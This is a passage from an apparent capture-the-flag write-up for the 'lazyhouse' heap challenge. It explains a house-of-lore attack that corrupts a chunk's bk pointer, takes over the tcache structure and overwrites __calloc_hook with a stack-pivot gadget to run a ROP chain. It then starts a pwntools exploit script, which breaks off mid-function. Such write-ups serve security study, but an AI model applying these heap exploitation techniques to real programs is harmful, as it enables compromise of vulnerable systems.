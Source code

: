 Then we make the second overflow to do house of lore attack, modify <font color=red>p->bk to fake_chunk</font>.
```
upgrade(1, "\x22" * 0xb0 + p64(0) + p64(0xa1) + p64(libc_base + 0x1e4d30) + p64(heap_base + 0x40))
```
Which is still important is that we need to make <font color=red>p->bk->bk->prev == p->bk</font>.
Do you remember that we have a tcache bin of 0x30? Good.
We just need to set the **fd** of that chunk to be ```heap_base + 0x40```. The great trick of setting bitmap to 0x100 has aslo meet that requirement.
```
buy_house(6, 0x3a0, p64(heap_base + 0x40) * (0x3a0 / 8))
```
At last, we just need to calloc the modified bin out and then we will get the chunk at **heap_base + 0x40**, which is the struct of tcache. We can change the header of the tcache bin list whose size is 0x220 to ```__calloc_hook``` and buy a big house (use malloc).

We can make ROP_CHAIN when we buy the house.

It is interesting that when we call ```__calloc_hook```, the register ```rbp``` is the same value as size.

So, we change ```__calloc_hook``` to a Gadget ```leave; ret``` to do ROP at the ROP_CHAIN by calloc(&heap_chunk + ?).

### EXP
```
from pwn import *

local=1
pc='./lazyhouse'
aslr=True
context.log_level="debug"
context.word_size = 64
context.os = "linux"
context.endian = "little"

libc=ELF('./libc.so.6')

if local==1:
    #p = process(pc,aslr=aslr,env={'LD_PRELOAD': './ld-linux-x86-64.so.2', "LD_LIBRARY_PATH":"./"})
    p = process(pc,aslr=aslr)
    #gdb.attach(p, "b malloc_printerr")
else:
    remote_addr=['6.6.6.6', 6666]
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x)
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def buy_house(index, size, buf, logging = False):
    ru("Your choice: ")
    log.info("target price --> {price}".format(price = hex(size * 0xDA & 0xffffffffffffffff)))
```